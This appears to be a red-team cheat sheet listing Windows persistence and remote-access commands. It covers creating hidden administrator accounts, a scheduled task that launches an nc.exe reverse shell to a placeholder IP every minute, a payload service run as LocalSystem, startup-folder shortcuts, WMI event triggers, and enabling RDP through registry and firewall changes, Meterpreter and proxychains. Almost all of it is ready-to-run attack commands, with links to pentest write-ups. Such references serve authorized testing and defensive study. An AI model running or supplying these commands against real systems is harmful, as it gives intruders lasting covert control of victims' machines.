 ## Create User:  
**Create user (CMD)**: net user username password /add  
**Add user to group (CMD)**: net localgroup Administrators username /add  
**Add user to group (Powershell)**: Add-LocalGroupMember -Group Administrators -Member username  

## Scheduled Tasks:  
**Local scheduled tast**: schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe <IP> <PORT> -e cmd.exe'  
**Create remote scheduled task**: schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password  
**Logon Scripts**: schtasks /create /sc onlogon /tn "task-name" /tr "File or App PATH" /RU  "username"  

## Create Service:
sc create (service name) binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"  
sc start (service name)  

## Startup Folder:
**Add files/executables/links to user startup folder**: C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\rev.lnk  

## Abandoned processes:  
**Try to find processes with procmon.exe what statos is NOT_FOUND**.  

## WMI Event:  
**Execute uor payload when executing another program or event happen. Can be done with PowerLurk**.
  
## Aditional Informaion:  
**Windows Tasks**:  
1. https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/  
2. https://dmfrsecurity.com/2021/09/07/scheduled-task-persistence/  
  
**Windows Registry**:  
1. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/  
  
**Services**:
1. https://pentestlab.blog/2019/10/07/persistence-new-service/  
2. https://dmcxblue.gitbook.io/red-team-notes/persistence/new-service  

**Sturtup Folder**:  
1. https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder  
2. https://stmxcsr.com/persistence/looking-at-the-startup-directory.html  

**WMI Event**:  
1. https://github.com/Sw4mpf0x/PowerLurk  
  
## ENABLE RDP:

**POWERSHELL**:  
Enable-PSRemoting;  
Enable-NetFirewallRule -DisplayGroup "Remote Desktop";  
  
**CMD**:  
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f;  
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes;  

**METERPRETER**:  
run getgui -u username -p password;  

**ADD NEW USER TO RDP & ADMIN GROUP (POWERSHELL / CMD)**:   
1) net user username password /add
2) net localgroup "remote desktop users" /add "domain\username"
3) net localgroup Administrators domain\username /add
  
**LOGIN TO INTERNAL HOST USING RDP VIA PROXYCHAINS**:  
proxychains4 xfreerdp /u:DOMAIN\\username /p:password /v:host_ip  

